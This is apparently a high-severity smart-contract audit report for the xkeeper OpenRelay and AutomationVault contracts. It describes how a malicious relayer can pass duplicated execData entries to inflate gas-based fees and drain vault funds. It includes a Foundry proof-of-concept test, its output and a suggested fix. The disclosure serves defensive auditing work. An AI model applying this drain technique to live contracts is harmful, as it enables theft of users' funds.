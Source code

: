 Eager Chambray Cricket

high

# Malicious `OpenRelayer` can drain all funds from AutomationVault duplicating multiple same `execData` in one execution.

## Summary
`OpenRelay` contract doesn't check if there are duplicated multiple `execData`.
If job contract doesn't revert for duplicated `execData` inputs in same block, malicious relayer can include multiple same `execData` in execData array to drain all funds from `AutomationVault`.

## Vulnerability Detail
OpenRelay#exec function checks only if `_execData` array is empty but not real data item in execData array, so it can be duplicated.
And the `fee` is accured based on the gas spend to execute `execData` jobs array.

```solidity
function exec(
    IAutomationVault _automationVault,
    IAutomationVault.ExecData[] calldata _execData,
    address _feeRecipient
  ) external {
@>    if (_execData.length == 0) revert OpenRelay_NoExecData();

    // Execute the automation vault counting the gas spent
@>  uint256 _initialGas = gasleft();
    _automationVault.exec(msg.sender, _execData, new IAutomationVault.FeeData[](0));
@>  uint256 _gasSpent = _initialGas - gasleft();

    // Calculate the payment for the relayer
@>  uint256 _payment = (_gasSpent + GAS_BONUS) * block.basefee * GAS_MULTIPLIER / BASE; // @audit gasSpent is double paid

    // Send the payment to the relayer
    IAutomationVault.FeeData[] memory _feeData = new IAutomationVault.FeeData[](1);
    _feeData[0] = IAutomationVault.FeeData(_feeRecipient, _NATIVE_TOKEN, _payment);
    _automationVault.exec(msg.sender, new IAutomationVault.ExecData[](0), _feeData);

    // Emit the event
    emit AutomationVaultExecuted(_automationVault, msg.sender, _execData, _feeData);
  }
```

AutomationVault.exec function checks only if relayer is approved caller and execData is approved job.
```solidity
function exec(address _relayCaller, ExecData[] calldata _execData, FeeData[] calldata _feeData) external {
    // Check that the specific caller is approved to call the relay
@>  if (!_approvedCallers[msg.sender].contains(_relayCaller) && !_approvedCallers[msg.sender].contains(_ALL)) {
      revert AutomationVault_NotApprovedRelayCaller();
    }

__SNIP__

    // Iterate over the exec data to execute the jobs
    for (_i; _i < _dataLength;) {
      _dataToExecute = _execData[_i];

      // Check that the selector is approved to be called
@>    if (!_approvedJobSelectors[msg.sender][_dataToExecute.job].contains(bytes4(_dataToExecute.jobData))) {
        revert AutomationVault_NotApprovedJobSelector();
      }
      (_success,) = _dataToExecute.job.call(_dataToExecute.jobData);
      if (!_success) revert AutomationVault_ExecFailed();

      // Emit the event
      emit JobExecuted(msg.sender, _relayCaller, _dataToExecute.job, _dataToExecute.jobData);

      unchecked {
        ++_i;
      }
    }
__SNIP__
    }
  }
```

POC
I added a test case in the `OpenRelay.t.sol`.
```solidity
function test_executeManyPayment(uint16 _howHard) public {
    vm.assume(_howHard <= 1000);

    assertEq(bot.balance, 0);

    uint256 botBalanceBefore = 0;

    IAutomationVault.ExecData[] memory _execData1 = new IAutomationVault.ExecData[](1);
    _execData1[0] =
          IAutomationVault.ExecData(address(basicJob), abi.encodeWithSelector(basicJob.workHard.selector, _howHard));
    openRelay.exec(automationVault, _execData1, bot);

    uint256 botBalanceAfterOne = bot.balance - botBalanceBefore;

    IAutomationVault.ExecData[] memory _execData500 = new IAutomationVault.ExecData[](500);
    for (uint256 i = 0; i < 500; ++i) {
      _execData500[i] =
            IAutomationVault.ExecData(address(basicJob), abi.encodeWithSelector(basicJob.workHard.selector, _howHard));
    }
    
    openRelay.exec(automationVault, _execData500, bot);
    uint256 botBalanceAfter500 = bot.balance - botBalanceAfterOne;

    assertEq(botBalanceAfterOne, botBalanceAfter500);

  }
```
Test output is following

```sh
$ forge test --match-test test_executeManyPayment -vv
[⠒] Compiling...
No files changed, compilation skipped

Ran 1 test for solidity/test/integration/OpenRelay.t.sol:IntegrationOpenRelay
[FAIL. Reason: assertion failed; counterexample: calldata=0xfb6e91380000000000000000000000000000000000000000000000000000000000000000 args=[0]] test_executeManyPayment(uint16) (runs: 0, μ: 0, ~: 0)
Logs:
  Error: a == b not satisfied [uint]
        Left: 1822613375568768
       Right: 80303504600433374
```
As you can see in test output, relay fee(keeper fee) is 0.0018 ether for one `execData`, and 0.08 ether for 500 same multiple `execData`.

Malicious relayer can repeatedly execute this function to drain all funds from the vault.

## Impact
If Job contract doesn't protect executing duplicated multiple jobs in one block, then `AutomationVault` can be drawn by malicious relayer.
  
## Code Snippet
https://github.com/sherlock-audit/2024-04-xkeeper/blob/main/xkeeper-core/solidity/contracts/relays/OpenRelay.sol#L21-L43
https://github.com/sherlock-audit/2024-04-xkeeper/blob/main/xkeeper-core/solidity/contracts/core/AutomationVault.sol#L397-L452

## Tool used

Manual Review

## Recommendation
Recommend that change `_execData` array to `EnumeratorSet` type (disable to execute same `execData` in one execution) and restrict execution of same `execData` in one block in `AutomationVault`.  